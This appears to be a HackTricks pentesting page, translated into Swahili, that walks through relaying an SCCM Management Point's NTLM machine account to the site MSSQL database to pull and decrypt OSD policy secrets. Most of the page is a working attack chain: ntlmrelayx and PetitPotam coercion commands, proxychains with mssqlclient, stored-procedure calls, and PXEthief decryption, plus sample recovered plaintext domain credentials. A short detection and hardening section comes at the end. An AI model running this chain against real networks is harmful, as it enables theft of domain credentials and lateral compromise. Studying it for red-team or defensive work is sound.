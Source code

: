 # SCCM Management Point NTLM Relay to SQL – OSD Policy Secret Extraction

{{#include ../../banners/hacktricks-training.md}}

## TL;DR
Kwa kulazimisha **System Center Configuration Manager (SCCM) Management Point (MP)** kuthibitisha kupitia SMB/RPC na **kupeleka** akaunti ya mashine ya NTLM kwa **hifadhidata ya tovuti (MSSQL)** unapata haki za `smsdbrole_MP` / `smsdbrole_MPUserSvc`. Hizi ni nafasi zinazokuruhusu kuita seti ya taratibu zilizohifadhiwa zinazofichua **Operating System Deployment (OSD)** blobs (akili za Akaunti ya Upataji wa Mtandao, mabadiliko ya Task-Sequence, nk.). Blobs zimeandikwa kwa hex/zimelindwa lakini zinaweza kufichuliwa na kufichuliwa kwa kutumia **PXEthief**, zikitoa siri za maandiko.

Mnyororo wa kiwango cha juu:
1. Gundua MP & hifadhidata ya tovuti ↦ mwisho wa HTTP usio na uthibitisho `/SMS_MP/.sms_aut?MPKEYINFORMATIONMEDIA`.
2. Anza `ntlmrelayx.py -t mssql://<SiteDB> -ts -socks`.
3. Lazimisha MP kwa kutumia **PetitPotam**, PrinterBug, DFSCoerce, nk.
4. Kupitia proxy ya SOCKS ungana na `mssqlclient.py -windows-auth` kama akaunti ya **<DOMAIN>\\<MP-host>$** iliyopelekwa.
5. Tekeleza:
* `use CM_<SiteCode>`
* `exec MP_GetMachinePolicyAssignments N'<UnknownComputerGUID>',N''`
* `exec MP_GetPolicyBody N'<PolicyID>',N'<Version>'`   (au `MP_GetPolicyBodyAfterAuthorization`)
6. Ondoa `0xFFFE` BOM, `xxd -r -p` → XML  → `python3 pxethief.py 7 <hex>`.

Siri kama `OSDJoinAccount/OSDJoinPassword`, `NetworkAccessUsername/Password`, nk. zinapatikana bila kugusa PXE au wateja.

---

## 1. Kuorodhesha mwisho wa MP usio na uthibitisho
Kiendelezi cha MP ISAPI **GetAuth.dll** kinatoa vigezo kadhaa ambavyo havihitaji uthibitisho (isipokuwa tovuti ni ya PKI pekee):

| Parameter | Purpose |
|-----------|---------|
| `MPKEYINFORMATIONMEDIA` | Inarudisha funguo ya umma ya cheti cha kusaini tovuti + GUIDs za vifaa vya *x86* / *x64* **All Unknown Computers**. |
| `MPLIST` | Inataja kila Management-Point katika tovuti. |
| `SITESIGNCERT` | Inarudisha cheti cha kusaini cha Tovuti Kuu (tambua seva ya tovuti bila LDAP). |

Chukua GUIDs ambazo zitakuwa kama **clientID** kwa maswali ya DB baadaye:
```bash
curl http://MP01.contoso.local/SMS_MP/.sms_aut?MPKEYINFORMATIONMEDIA | xmllint --format -
```
---

## 2. Peleka akaunti ya mashine ya MP kwa MSSQL
```bash
# 1. Start the relay listener (SMB→TDS)
ntlmrelayx.py -ts -t mssql://10.10.10.15 -socks -smb2support

# 2. Trigger authentication from the MP (PetitPotam example)
python3 PetitPotam.py 10.10.10.20 10.10.10.99 \
-u alice -p P@ssw0rd! -d CONTOSO -dc-ip 10.10.10.10
```
Wakati shinikizo linapowaka unapaswa kuona kitu kama:
```
[*] Authenticating against mssql://10.10.10.15 as CONTOSO/MP01$ SUCCEED
[*] SOCKS: Adding CONTOSO/MP01$@10.10.10.15(1433)
```
---

## 3. Tambua sera za OSD kupitia taratibu zilizohifadhiwa
Unganisha kupitia proxy ya SOCKS (port 1080 kwa chaguo-msingi):
```bash
proxychains mssqlclient.py CONTOSO/MP01$@10.10.10.15 -windows-auth
```
Switch to the **CM_<SiteCode>** DB (tumia msimbo wa tovuti wa tarakimu 3, mfano `CM_001`).

### 3.1  Tafuta GUIDs za Kompyuta zisizojulikana (hiari)
```sql
USE CM_001;
SELECT SMS_Unique_Identifier0
FROM dbo.UnknownSystem_DISC
WHERE DiscArchKey = 2; -- 2 = x64, 0 = x86
```
### 3.2 Orodha ya sera zilizotolewa
```sql
EXEC MP_GetMachinePolicyAssignments N'e9cd8c06-cc50-4b05-a4b2-9c9b5a51bbe7', N'';
```
Kila safu ina `PolicyAssignmentID`, `Body` (hex), `PolicyID`, `PolicyVersion`.

Zingatia sera:
* **NAAConfig**  – Akounti za mtandao za NAA
* **TS_Sequence** – Mabadiliko ya kazi (OSDJoinAccount/Password)
* **CollectionSettings** – Inaweza kuwa na akaunti za run-as

### 3.3  Pata mwili kamili
Ikiwa tayari una `PolicyID` & `PolicyVersion` unaweza kupuuzilia mbali hitaji la clientID kwa kutumia:
```sql
EXEC MP_GetPolicyBody N'{083afd7a-b0be-4756-a4ce-c31825050325}', N'2.00';
```
> MUHIMU: Katika SSMS ongeza "Makarakteri Max yaliyopatikana" (>65535) au blob itakatwa.

---

## 4. Fanya dekodi na ufichue blob
```bash
# Remove the UTF-16 BOM, convert from hex → XML
echo 'fffe3c003f0078…' | xxd -r -p > policy.xml

# Decrypt with PXEthief (7 = decrypt attribute value)
python3 pxethief.py 7 $(xmlstarlet sel -t -v "//value/text()" policy.xml)
```
Mfano wa siri zilizorejelewa:
```
OSDJoinAccount : CONTOSO\\joiner
OSDJoinPassword: SuperSecret2025!
NetworkAccessUsername: CONTOSO\\SCCM_NAA
NetworkAccessPassword: P4ssw0rd123
```
---

## 5. Majukumu na taratibu za SQL zinazohusiana
Wakati wa relay, kuingia kunapangwa kwa:
* `smsdbrole_MP`
* `smsdbrole_MPUserSvc`

Majukumu haya yanaonyesha idadi kubwa ya ruhusa za EXEC, zile muhimu zinazotumika katika shambulio hili ni:

| Taratibu Iliyohifadhiwa | Kusudi |
|------------------|---------|
| `MP_GetMachinePolicyAssignments` | Orodha ya sera zilizotumika kwa `clientID`. |
| `MP_GetPolicyBody` / `MP_GetPolicyBodyAfterAuthorization` | Rudisha mwili kamili wa sera. |
| `MP_GetListOfMPsInSiteOSD` | Iliyorejeshwa na njia ya `MPKEYINFORMATIONMEDIA`. |

Unaweza kukagua orodha kamili na:
```sql
SELECT pr.name
FROM   sys.database_principals AS dp
JOIN   sys.database_permissions AS pe ON pe.grantee_principal_id = dp.principal_id
JOIN   sys.objects AS pr ON pr.object_id = pe.major_id
WHERE  dp.name IN ('smsdbrole_MP','smsdbrole_MPUserSvc')
AND  pe.permission_name='EXECUTE';
```
---

## 6. Ugunduzi & Kuimarisha
1. **Fuatilia logins za MP** – akaunti yoyote ya kompyuta ya MP inayoingia kutoka IP ambayo si mwenyeji wake ≈ relay.
2. Wezesha **Ulinzi wa Kupanuliwa kwa Uthibitishaji (EPA)** kwenye hifadhidata ya tovuti (`PREVENT-14`).
3. Zima NTLM zisizotumika, enforce SMB signing, punguza RPC (
mipango sawa iliyotumika dhidi ya `PetitPotam`/`PrinterBug`).
4. Imarisha mawasiliano ya MP ↔ DB kwa kutumia IPSec / mutual-TLS.

---

## Tazama pia
* Misingi ya NTLM relay:
{{#ref}}
../ntlm/README.md
{{#endref}}

* Unyanyasaji wa MSSQL & baada ya unyanyasaji:
{{#ref}}
abusing-ad-mssql.md
{{#endref}}



## Marejeo
- [Ningependa Kuongea na Meneja Wako: Kuiba Siri kwa Kutumia Management Point Relays](https://specterops.io/blog/2025/07/15/id-like-to-speak-to-your-manager-stealing-secrets-with-management-point-relays/)
- [PXEthief](https://github.com/MWR-CyberSec/PXEThief)
- [Meneja wa Makosa – ELEVATE-4 & ELEVATE-5](https://github.com/subat0mik/Misconfiguration-Manager)
{{#include ../../banners/hacktricks-training.md}}

